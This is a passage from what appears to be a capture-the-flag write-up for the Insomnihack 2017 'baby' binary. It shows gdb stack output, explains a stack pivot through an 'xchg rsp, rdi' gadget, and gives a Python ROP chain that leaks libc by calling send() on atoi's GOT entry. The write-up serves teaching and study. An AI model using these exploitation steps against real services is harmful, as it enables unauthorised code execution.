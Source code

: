 [------------------------------------stack-------------------------------------]
0000| 0x7fffffffe780 --> 0x7ffff77e4d28 --> 0x0
0008| 0x7fffffffe788 --> 0x4ffffe8c0
0016| 0x7fffffffe790 --> 0x7ffff77ee958 --> 0xc002200002ed9
0024| 0x7fffffffe798 --> 0x8
0032| 0x7fffffffe7a0 --> 0x7ffff6c0e058 ("AAAAAAAABBBBBBBB")
0040| 0x7fffffffe7a8 --> 0x7ffff6c0f200 ('A' <repeats 200 times>...)
0048| 0x7fffffffe7b0 --> 0x7ffff6c0e058 ("AAAAAAAABBBBBBBB")
0056| 0x7fffffffe7b8 --> 0x7ffff7fd25f8 --> 0x40079b ("GLIBC_2.2.5")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x000000000040138f in handleconnection ()
{% endhighlight %}

## Libc Leak

Notice how the `RDI` register points to the beginning of our user region, where our user's name resides.
If we set a ROP chain as our name, we can return to a `xchg rsp, rdi ; ret` gadget to perform a stack pivot and begin moving down our ROP chain to execute arbitrary code.

We can find such a stack pivot gadget in the ELF executable and use it reliably since **PIE** is not enabled.

Now, for the ROP chain, we need to address a few issues.

First, because our binary is not statically compiled, we don't have many gadgets to work with from within the ELF executable, which may prove problematic later, depending on what we want our ROP chain to do.

But more importantly, we will need to dynamically calculate the addresses of libc functions to be able to return into them in our ROP chain and do anything meaningful. 

Therefore, we need to leak libc somehow.

We can do this if we set our name to be a short ROP chain to leak libc.

{% highlight python %}
# send(0x4,atoi@got,X,Y)
name  = p64(0x401713)       # pop rdi ; ret
name += p64(0x4)
name += p64(0x401711)       # pop rsi ; pop r15 ; ret
name += p64(e.got['atoi'])     
name += p64(0xb00bface) 
name += p64(e.plt['send'])    
{% endhighlight %} 

In my actual exploit, I couldn't find the right gadgets within the ELF executable to also control the values in `RDX` and `RCX`, which are the 3rd and 4th arguments passed into `send()`, respectively, but it didn't matter, as the existing values in those registers were good enough to still be able to call `send()` successfully.

Once we leaked the address of `atoi@libc`, we can check to see which libc the server is using. 
{%highlight bash %}
$ ./find atoi 0x7f8356ad3e80
archive-glibc (id libc6_2.23-0ubuntu5_amd64)
archive-eglibc (id libc6-amd64_2.11.1-0ubuntu7_i386)
/home/rh0gue/Documents/insomnihack17/baby/baby/libc.so (id local-84d7ecac9d0c61c810c8e4215e4d456fbef667be)
{% endhighlight %}
